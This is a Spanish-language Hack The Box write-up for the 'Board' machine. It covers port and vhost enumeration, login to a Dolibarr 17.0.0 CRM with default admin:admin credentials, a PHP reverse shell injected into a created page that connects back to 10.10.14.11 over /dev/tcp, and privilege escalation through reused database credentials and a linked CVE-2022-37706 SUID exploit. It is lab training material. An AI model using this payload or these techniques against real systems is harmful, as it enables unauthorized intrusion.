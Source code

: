 #writeup #HTB 

# Reconocimiento

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```gobuster
gobuster vhost -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u board.htb -t 200 --append-domain
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://board.htb
[+] Method:          GET
[+] Threads:         200
[+] Wordlist:        /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: crm.board.htb Status: 200 [Size: 6360]
Progress: 548 / 4990 (10.98%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 645 / 4990 (12.93%)
===============================================================
Finished
===============================================================
```

Si accedemos a dicho dominio (tendremos que añadirlo al `/etc/hosts`):

![[dolibarr.png]]


# Explotación

Las credenciales resultan ser `admin:admin`. Además, vemos una versión `17.0.0`, que parece vulnerable. Si buscamos en internet, veremos que es vulnerable. Podemos crear páginas e inyectar en ellas código malicioso:

![[create_page.png]]

![[rev_shell.png]]

```php
<?pHp system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.11/443 0>&1'"); ?>
```
# Escalada de privilegios

Si estamos en escucha recibiremos una shell. Aplicaremos un [[Tratamiento de la tty]].

En un archivo `conf.php` encontramos unas credenciales de una base de datos que son válidos para el usuario `larisse`.

Con [[linpeas]] podemos encontrar archivos SUID, y con una búsqueda en internet encontramos el siguiente [exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh).


